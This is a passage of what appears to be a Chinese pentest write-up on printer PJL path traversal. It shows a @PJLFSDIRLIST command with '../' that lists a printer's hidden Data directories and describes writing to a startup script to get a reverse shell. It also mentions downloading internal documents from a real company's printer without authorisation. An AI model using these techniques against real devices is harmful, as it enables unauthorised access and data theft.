 ```
.TYPE=DIR

..TYPE=DIR

DataTYPE=DIR

JobsTYPE=DIR

TempTYPE=DIR

BrowserTYPE=DIR

PDLTYPE=DIR
```

3.读取Data目录

发现有Data、jobs目录，这里演示访问其下的Data目录，发现Data目录存在这些目录文件。

@PJLFSDIRLIST NAME="0:/../data" ENTRY=1 COUNT=1024![image.png](media/image.png-4.jpg)发现Data目录存在这些目录文件：

```
.TYPE=DIR

..TYPE=DIR

DataContractTYPE=DIR

CustomerDataDBTYPE=DIR
```

总结：

目录遍历除了可读取文件之外，还可写入，但是并不是所有的文件都可写入，寻找可写入的文件，如向启动脚本写入代码，重启即可执行代码反弹shell，这里我当时时间有限，遍历几个目录没有发现启动脚本，不然只要可写入就能反弹shell。

路径遍历案例：

中国移动某省公司打印机未授权访问已成功下载移动内部资料（保密承诺书？）
